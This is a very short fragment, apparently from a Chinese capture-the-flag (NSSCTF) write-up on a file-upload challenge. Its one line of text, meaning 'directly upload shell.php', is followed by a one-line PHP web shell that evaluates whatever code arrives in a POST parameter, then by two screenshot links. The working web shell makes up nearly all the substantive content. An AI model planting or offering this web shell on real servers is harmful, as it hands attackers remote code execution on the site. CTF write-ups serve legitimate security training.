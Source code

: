 直接上传shell.php

```
<?php eval($_POST[shell]);?>
```

![image-20250814184011749](./NSSCTF-5.assets/image-20250814184011749.png)

![image-20250814183934973](./NSSCTF-5.assets/image-20250814183934973.png)
